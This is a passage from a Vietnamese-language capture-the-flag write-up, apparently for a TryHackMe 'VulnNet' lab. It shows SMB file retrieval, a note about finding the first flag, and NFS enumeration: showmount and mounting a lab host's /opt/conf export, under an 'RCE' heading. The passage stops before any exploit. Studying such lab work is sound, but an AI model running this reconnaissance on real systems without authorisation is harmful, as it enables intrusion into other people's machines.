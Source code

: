 ```python
getting file \data\business-req.txt of size 190 as business-req.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \data\> 
```

Mở file *services.txt* trên máy local tôi sẽ có được flag đầu tiên. 

Với 2 file còn lại tôi được 2 lời nhắn

```python
┌──(kali㉿kali)-[~]
└─$ cat data.txt  
Purge regularly data that is not needed anymore
                                  
┌──(kali㉿kali)-[~]
└─$ cat business-req.txt 
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
                                     
┌──(kali㉿kali)-[~]
└─$ 

```

Không còn gì để khai thác với 2 port này, tôi sẽ chuyển sang `mount`

## RCE

```python
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.10.116.142                                           
Export list for 10.10.116.142:
/opt/conf *
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.10.116.142:/opt/conf /home/kali/THM-Vulnet -o nolock
┌──(kali㉿kali)-[~]
└─$ tree THM-Vulnet 
THM-Vulnet
├── hp
│   └── hplip.conf
├── init
│   ├── anacron.conf
│   ├── lightdm.conf
│   └── whoopsie.conf
├── opt
├── profile.d
│   ├── bash_completion.sh
│   ├── cedilla-portuguese.sh
│   ├── input-method-config.sh
│   └── vte-2.91.sh
├── redis
│   └── redis.conf
├── vim
│   ├── vimrc
│   └── vimrc.tiny
└── wildmidi
    └── wildmidi.cfg

7 directories, 12 files
                                     
┌──(kali㉿kali)-[~]
└─$ 
```
